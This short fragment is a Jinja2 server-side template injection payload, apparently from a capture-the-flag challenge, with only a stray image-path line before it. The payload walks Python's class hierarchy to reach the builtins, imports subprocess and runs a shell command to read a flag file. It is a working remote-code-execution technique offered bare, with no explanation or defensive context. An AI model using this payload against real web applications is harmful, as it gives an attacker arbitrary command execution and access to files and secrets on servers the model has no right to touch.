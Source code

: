 {% set loadedClasses = ''.__class__.__mro__[1].__subclasses__() %} 
{% for loadedClass in loadedClasses %} 
	{% if loadedClass.__name__ == 'catch_warnings' %} 
		{% set builtinsReference = loadedClass()._module.__builtins__ %} 
		{% set os = builtinsReference['__import__']('subprocess') %}
		{{ os.check_output('cat app/flag', shell=True) }}
	{% endif %} 
{% endfor %} 
